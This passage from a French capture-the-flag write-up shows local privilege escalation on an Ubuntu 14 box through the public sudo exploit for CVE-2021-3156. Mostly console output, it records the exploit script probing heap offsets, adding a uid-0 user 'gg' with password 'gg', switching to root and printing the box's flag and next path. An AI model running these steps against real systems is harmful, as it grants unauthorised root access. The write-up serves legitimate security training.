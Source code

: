 Je me suis tourné vers l'exploit `sudo` car userland (et donc moins de risques de crasher le système). Cet exploit est composé de différents scripts Python. Celui spécifique à *Ubuntu 14* échouait, mais un autre a fonctionné (le choix des scripts est documenté dans le `README` du projet). Il rajoute un utilisateur d'uid 0 nommé `gg` avec le mot de passe `gg`.

```console
www-data@ubuntu:/tmp/CVE-2021-3156$ python exploit_userspec.py 

curr size: 0x1600
*** Error in `sudoedit': malloc(): memory corruption: 0x00002b48aea9e7d0 ***

exit code: 6
--- snip ---

*** Error in `sudoedit': malloc(): memory corruption: 0x00002b9a054b45b0 ***

curr size: 0x13d0

exit code: 6


size_min: 0x13c0
found cmnd size: 0x13c0
found defaults, offset: 0x30
offset_max: 0x280
offset_min: 0x180
at range: 0x100-0x170

cmnd size: 0x13c0
offset to defaults: 0x30
offset to first userspec: 0x0
offset to userspec: 0x2f0

to skip finding offsets next time no this machine, run: 
exploit_userspec.py 0x13c0 0x30 0x0 0x2f0

Target sudo has bug. No idea to find first userspec.
So the exploit will fail if a running user is in sudoers and not in first two rules.
gg:$5$a$gemgwVPxLx/tdtByhncd4joKlMRYQ3IVwdoBXPACCL2:0:0:gg:/root:/bin/bash
success at 113
www-data@ubuntu:/tmp/CVE-2021-3156$ su gg
Password: 
root@ubuntu:/tmp/CVE-2021-3156# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp/CVE-2021-3156# cd /root
root@ubuntu:~# ls
root@ubuntu:~# ls -al
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
root@ubuntu:~# cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```